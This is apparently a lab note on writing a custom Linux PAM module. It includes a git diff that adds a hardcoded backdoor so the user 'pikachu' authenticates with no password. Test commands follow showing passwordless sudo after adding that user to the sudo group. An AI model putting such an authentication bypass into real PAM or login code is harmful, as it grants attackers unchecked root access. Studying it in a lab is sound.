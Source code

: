 * when `pam_start()` gets called, it creates a handle. This handle should be used to get data directly but use `pam_get_item` and `pam_set_item` instead, at least according to the man pages from `pam_start()`

According to logical flow of how PAM works, our application will call `pam_authenticate()` which will route to the a PAM method `pam_sm_authnenticate`

### LOGGING
* pam_warn.so - should use to send a syslog message to auth.notice

### Modification to PAM to allow the user pikachu login automatically as proof that we replace sudo
---
```
zaku@zaku-VirtualBox:~/simple-pam$ git diff
diff --git a/src/mypam.c b/src/mypam.c
index 31b3247..e6d5985 100644
--- a/src/mypam.c
+++ b/src/mypam.c
@@ -22,6 +22,12 @@ PAM_EXTERN int pam_sm_authenticate( pam_handle_t *pamh, int flags,int argc, cons
        retval = pam_get_user(pamh, &pUsername, "Username: ");
 
        printf("Welcome %s\n", pUsername);
+    printf("This is a simple PAM says Pikachu\n");
+    
+    if (!strcmp(pUsername, "pikachu")) {
+        printf("Pikachu has backdoor\n");
+        return PAM_SUCCESS;
+    }
 
        if (retval != PAM_SUCCESS) {
                return retval;
```
**TEST:**
Check if user exists
```
zaku@zaku-VirtualBox:~$ cat /etc/passwd | grep pikachu
pikachu:x:1001:1001:Pikachu,,,:/home/pikachu:/bin/bash
```

Add user to sudoer group:
```
usermod -aG sudo pikachu
```

Now try to run sudo:
```
zaku@zaku-VirtualBox:~$ whoami
zaku
zaku@zaku-VirtualBox:~$ su pikachu
Password: 
pikachu@zaku-VirtualBox:/home/zaku$ whoami
pikachu
pikachu@zaku-VirtualBox:/home/zaku$ sudo echo "This is a test on echoing as sudo"
This is a test on echoing as sudo
```
**[success]** - Does not ask for password unlike for other users
